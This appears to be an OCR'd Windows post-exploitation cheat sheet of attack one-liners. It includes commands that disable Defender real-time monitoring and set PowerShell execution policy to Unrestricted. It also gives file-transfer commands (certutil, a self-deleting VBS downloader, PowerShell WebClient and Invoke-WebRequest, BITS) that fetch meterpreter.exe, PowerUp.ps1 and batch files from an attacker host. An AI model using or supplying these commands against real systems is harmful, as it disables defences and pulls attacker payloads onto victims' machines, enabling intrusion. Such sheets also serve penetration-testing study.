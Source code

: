 # Command line
whoami /priv  



# Powershell
Get-ExecutionPolicy    
Set-ExecutionPolicy Unrestricted   
Set-MpPreference -DisableRealtimeMonitoring $true  


# File Transfer  
certutil.exe -urlcache -split -f "http://$IP/file.bat" file.bat   
## VBS 
echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"
  
## Powershell
powershell -c wget "http://$IP/file.exe" -outfile "file.exe"   
powershell "(New-Object System.Net.WebClient).DownloadFile('$IP','$PORT')"   
powershell Invoke-WebRequest -Uri http://$IP:$PORT/PowerUp.ps1 -OutFile C:\Users\out   
BITS (Background Intelligence Transfer Service)   
powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://$IP:$PORT/file.bat -Destination C:\   

